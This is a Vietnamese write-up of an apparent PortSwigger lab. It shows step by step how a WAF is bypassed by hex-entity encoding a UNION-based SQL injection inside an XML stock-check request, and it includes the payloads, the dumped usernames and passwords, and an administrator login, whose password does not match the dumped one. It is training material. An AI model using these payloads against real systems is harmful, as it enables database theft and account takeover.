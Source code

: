 # Write-up: SQL injection with filter bypass via XML encoding

### Tổng quan
Ghi lại quá trình khai thác lỗi SQLi bằng cách vượt qua bộ lọc (WAF) thông qua XML encoding, nhằm lấy được mật khẩu và đăng nhập với quyền `administrator`.

### Mục tiêu
- Khai thác mật khẩu và đăng nhập dưới quyền `administrator`

### Công cụ hỗ trợ
- BurpSuite pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Kiểm tra tính năng `check stock` của một sản phẩm bất kì, nhận thấy kho sẽ gửi `productId` và `storeId` đến web bằng định dạng XML và sử dụng nó để thực hiện lấy thông tin từ DB.
    ![db](./images/xml.png)

- Kiểm tra xem có cần mã hóa truy vấn không
    ```
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>
                1
            </productId>
            <storeId>
                1 UNION SELECT NULL
            </storeId>
        </stockCheck>
    ```
    - **Kết quả**: xác nhận cần mã hóa
        ![encode](./images/detect.png)

- Xác định số cột trả về 
    ```
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>
                1
            </productId>
            <storeId>
                1 <@hex_entities>
                    UNION SELECT NULL, NULL
                </@hex_entities>
            </storeId>
        </stockCheck>
    ```
    - **Kết quả**: Chỉ có 1 cột được trả về.
        ![cột](./images/one.png)


2. **Tạo Payload**
- Tạo payload để trích xuất thông tin người dùng
    ```
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>
                1
            </productId>
            <storeId>
                1 <@hex_entities>
                    UNION SELECT username ||'~'|| password FROM users
                </@hex_entities>
            </storeId>
        </stockCheck>
    ```
    - **Kết quả**: Truy vấn thành công thông tin
        `administrator`~`4j4v7teu59b7w37bgj1k`
        `carlos`~`lo6w71a8ut7z6557yy5z`
        `wiener`~`ybbmoi6oocvigcegaknt`
        ![data](./images/credetials.png)

3. **Khai thác (Exploitation)**
- Vào phần `/login` và đăng nhập `administrator` : `cjmpp53lzxnc5oaxkplg` và hoàn thành lab
    ![vào](./images/login_success.png)

### Bài học rút ra
- Củng cố kỹ năng khai thác SQL injection với kỹ thuật XML encoding bypass.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.